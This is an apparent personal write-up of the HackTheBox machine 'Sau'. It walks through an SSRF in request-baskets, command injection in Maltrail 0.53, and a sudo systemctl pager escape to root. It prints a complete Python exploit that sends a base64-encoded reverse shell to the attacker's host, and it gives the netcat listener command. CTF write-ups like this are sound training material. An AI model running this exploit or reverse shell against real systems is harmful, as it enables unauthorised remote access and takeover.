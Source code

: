 ```yaml
---
title: "SAU"
date: 2023-12-31
layout: "simple"
categories: [Boot2root]
tags: [HackTheBox]
image: https://i.ibb.co/cgYN2Kr/th-3134630742.jpg
---
```


Hello and welcome to my first writeup on Hack the box machines. We will be handling an easy machine named Sau. We will use real vulnerabilities that were discovered before and we will also make use of exploits that had been used before. Let's begin.

# Enumaration

First of all we are going to run a NMAP scan to scan for open ports.

![1](https://i.ibb.co/bFPd1Sv/nmap.png) 

![2](https://i.ibb.co/Z23FwTJ/report.png)

From the scan we can see that port 22 is open on which ssh runs. But since we have no credentials we would not be able to use this. We can then see that the port 80 has been filtered which would mean we cannot communicate with it from outside the network. Then port 55555 would definately catch our attention. From the report we can see that the port is accessible on our browser and it allows for the get option.

We can access this by `http://machine_ip:55555` which will lead us to a page with request baskets.

# Request-baskets SSRF

When we visit the page this is what we can see

![3](https://i.ibb.co/CWbzyxx/55555.png) 

This is basically a page which creates request-baskets. What is interesting is we have a service and a version running. We can look this up and we see that we have a lurking vulnerability which is `Server Side Request Forgery`. This vulnerability exists due to some improper validation in a path and would ideally be leveraged to connect to any HTTP server on the network. 

To exploit this we need to create a basket and change some of the configurations on the basket.

![4](https://i.ibb.co/p43QH7R/configuration.png)

First we need to set an URL where the requests will be forwarded to. We can use localhost and set the port to port `80`.

Secondly we need to set `insecure_tls` to true which will ideally bypass the certificate verification.
Next, we need to set `proxy response` to true which will send response of the forwarded server back to our client.

Lastly, setting `expand_path` set to true makes forward_url path expanded when original http request contains compound path.

From here we only need to visit the URL so as to trigger this vulnerability.

# Exploiting Mailtrail

So when we visit the URL we can see a page that looks like this

![5](https://i.ibb.co/bKqqHK3/mailtrail.png)

We do not see much but we get a service running and its version. We can then look for the vulnerabilities associated with the service and version running.

We then can get a python exploit script which would exploit a command injection vulnerability. The exploit creates a reverse shell payload encoded in Base64 to bypass potential protections like WAF, IPS or IDS and delivers it to the target URL using a curl command
The payload is then executed on the target system, establishing a reverse shell connection back to the attacker's specified IP and port

The python script is as follows:
   
    #!/bin/python3

    import sys
    import os
    import base64

    # Arguments to be passed
    YOUR_IP = sys.argv[1]  # <your ip>
    YOUR_PORT = sys.argv[2]  # <your port>
    TARGET_URL = sys.argv[3]  # <target url>

    print("\n[+]Started MailTrail version 0.53 Exploit")

    # Fail-safe for arguments
    if len(sys.argv) != 4:
        print("Usage: python3 mailtrail.py <your ip> <your port> <target url>")
        sys.exit(-1)


    # Exploit the vulnerbility
    def exploit(my_ip, my_port, target_url):
    # Defining python3 reverse shell payload
        payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
    # Encoding the payload with base64 encoding
        encoded_payload = base64.b64encode(payload.encode()).decode()
    # curl command that is to be executed on our system to exploit mailtrail
        command = f"curl '{target_url}/login' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
    # Executing it
        os.system(command)


    print("\n[+]Exploiting MailTrail on {}".format(str(TARGET_URL)))
    try:
        exploit(YOUR_IP, YOUR_PORT, TARGET_URL)
        print("\n[+] Successfully Exploited")
        print("\n[+] Check your Reverse Shell Listener")
    except:
        print("\n[!] An Error has occured. Try again!")


First we need to run a netcat listener on our machine, `nc -lnvp port`.

Next we need to execute the exploit example, `python3 exploit.py [ip] [port] [target_url]`.
From here we need to check at our listener for any connections. And we should be connected as a user.

![6](https://i.ibb.co/kD3nP6H/user.png)

# Privilege Escalation

Next we should try to escalate our privileges to root. Well we can run `sudo -l` which would help us to know what commands we can run as `sudo`.

![7](https://i.ibb.co/sv9GX12/privesc.png)

We see that we can run `systemctl status trail.sevice` as sudo. Then we can run `!sh` and press return.

![8](https://i.ibb.co/Fz1H9zr/root.png)

We are root. We can then find our flags.

# Conclusion 
HTB machines are awesome. Happy hacking 